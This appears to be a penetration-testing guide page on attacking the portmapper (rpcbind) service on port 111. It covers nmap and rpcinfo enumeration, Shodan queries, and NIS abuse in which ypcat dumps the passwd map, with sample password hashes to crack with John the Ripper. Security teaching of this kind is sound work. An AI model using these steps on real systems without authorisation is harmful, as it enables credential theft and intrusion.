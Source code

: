# 111/TCP/UDP - Pentesting Portmapper

## Basic Information

Provides information between Unix based systems. Port is often probed, it can be used to fingerprint the Nix OS, and to obtain information about available services. Port used with NFS, NIS, or any rpc-based service.

**Default port:** 111/TCP/UDP, 32771 in Oracle Solaris

```text
PORT    STATE SERVICE
111/tcp open  rpcbind
```

## Enumeration

```text
rpcinfo irked.htb
nmap -sSUC -p111 192.168.10.1
```

Sometimes it doesn't give you any information, in other occasions you will get something like this:  

![](../.gitbook/assets/image%20%2863%29.png)

### Shodan

* `port:111 portmap`

## RPCBind + NFS

If you find the service NFS then probably you will be able to list and download\(and maybe upload\) files:

![](../.gitbook/assets/image%20%28103%29.png)

Read[ 2049 - Pentesting NFS service](nfs-service-pentesting.md) to learn more about how to test this protocol.

## NIS

If you find the service `ypbind`running:

![](../.gitbook/assets/image%20%28313%29.png)

You can try to exploit it. Anyway, first of all you will **need to guess the NIS "domain name"** of the machine \(when NIS is installed it's configured a "domain name"\) and **without knowing this domain name you cannot do anything**.

Upon obtaining the NIS domain name for the environment \(example.org in this case\), use the ypwhich command to ping the NIS server and ypcat to obtain sensitive material. You should feed encrypted password hashes into John the Ripper, and once cracked, you can use it to evaluate system access and privileges.

```bash
root@kali:~# apt-get install nis
root@kali:~# ypwhich -d example.org 192.168.10.1
potatohead.example.org
root@kali:~# ypcat –d example.org –h 192.168.10.1 passwd.byname
tiff:noR7Bk6FdgcZg:218:101::/export/home/tiff:/bin/bash 
katykat:d.K5tGUWCJfQM:2099:102::/export/home/katykat:/bin/bash 
james:i0na7pfgtxi42:332:100::/export/home/james:/bin/tcsh 
florent:nUNzkxYF0Hbmk:199:100::/export/home/florent:/bin/csh 
dave:pzg1026SzQlwc:182:100::/export/home/dave:/bin/bash 
yumi:ZEadZ3ZaW4v9.:1377:160::/export/home/yumi:/bin/bash
```

| **Master file** | **Map\(s\)** | **Notes** |
| :--- | :--- | :--- |
| /etc/hosts | hosts.byname, hosts.byaddr | Contains hostnames and IP details |
| /etc/passwd | passwd.byname, passwd.byuid | NIS user password file |
| /etc/group | group.byname, group.bygid | NIS group file |
| /usr/lib/aliases | mail.aliases | Details mail aliases |

## RPC Users

If you find the **rusersd** service listed like this:

![](../.gitbook/assets/image%20%2814%29.png)

You could enumerate users of the box. To learn how read [1026 - Pentesting Rsusersd](1026-pentesting-rusersd.md).

## Bypass Filtered Portmapper port

If during a nmap scan you see open ports like NFS but the port 111 is filtered, you won't be able to exploit those ports.  
But, if you can simulate a locally a portmapper service and you tunnel the NFS port from your machine to the victim one, you will be able to use regular tools to exploit those services.  
More information in [https://medium.com/@sebnemK/how-to-bypass-filtered-portmapper-port-111-27cee52416bc](https://medium.com/@sebnemK/how-to-bypass-filtered-portmapper-port-111-27cee52416bc)

## Shodan

* `Portmap`

